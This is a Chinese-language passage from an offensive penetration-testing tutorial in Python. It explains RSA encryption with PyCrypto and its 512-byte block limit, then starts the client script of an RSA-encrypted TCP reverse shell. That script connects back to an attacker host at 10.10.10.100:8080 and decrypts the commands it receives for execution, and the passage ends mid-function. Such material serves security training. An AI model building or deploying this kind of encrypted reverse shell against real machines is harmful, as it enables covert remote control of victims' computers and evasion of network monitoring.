 让我们跳转到解密过程，我们将通过导入做类似于加密过程的操作。现在，这是关键的不同点。在解密时，我们将导入`privatekey`并传入`cipher`值，然后在解密后打印出明文。

让我们尝试在 Windows 机器上运行脚本，如果你遇到一个错误消息，提示我们没有找到`public.pem`文件或目录，很可能是因为保存的文件格式问题。查看完整的扩展名并去掉`.txt`，将其改为`.pem`，无论是公钥还是私钥文件都需要这样修改。

在这里，我们首先要加密我的名字，我们将以明文形式将我的名字传递给加密函数。现在，一旦我们导入了公钥进行加密，就会打印出加密后的消息。然后，我们将加密后的消息传回解密函数，以便我们可以以明文格式打印出来。

现在，如果我们切换到 Kali 机器并运行稍微修改过的`encrypt()`函数脚本：

```
...
encrypt('H'*512)
...
```

现在，注意到我已经在代码块中加密了一个大小为`512`字节的消息。我想展示的重点是，RSA 作为一个块`密码`类型在工作，并且根据`PyCrypto`的实现，块大小为`512`字节。

现在，让我们看看如果我将消息大小增加 1 字节会发生什么。所以下面我不会将其乘以 `512`，而是直接乘以 `513`。此时会抛出一个异常，提示明文数据过大，无法处理。

所以，消息的最大大小必须是 `512` 字节。现在，我要做的第一件事是将 RSA 集成到我们的 TCP 隧道中，然后我会展示如何通过几行 Python 代码解决块大小问题。现在，集成过程与我们在前面部分所做的非常相似。让我们来看一下客户端脚本：

```
# Python For Offensive PenTest

# Download Pycrypto for Windows - pycrypto 2.6 for win32 py 2.7
# http://www.voidspace.org.uk/python/modules.shtml#pycrypto

# Download Pycrypto source
# https://pypi.python.org/pypi/pycrypto
# For Kali, after extract the tar file, invoke "python setup.py install"

# RSA - Client - TCP Reverse Shell

import socket 
import subprocess 

from Crypto.PublicKey import RSA

def encrypt(message):
    #Remember that here we define the server's public key
    publickey ='''-----BEGIN PUBLIC KEY-----
...
-----END PUBLIC KEY-----'''

    encryptor = RSA.importKey(publickey)
    global encriptedData
    encriptedData=encryptor.encrypt(message, 0)
    return encriptedData[0]

def decrypt(cipher):
    #Remember that here we define our (the target's) private key
    privatekey = '''-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----'''

    decryptor = RSA.importKey(privatekey)
    dec = decryptor.decrypt(cipher) 
    return dec

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('10.10.10.100', 8080)) 

    while True:

        command = decrypt(s.recv(512))
```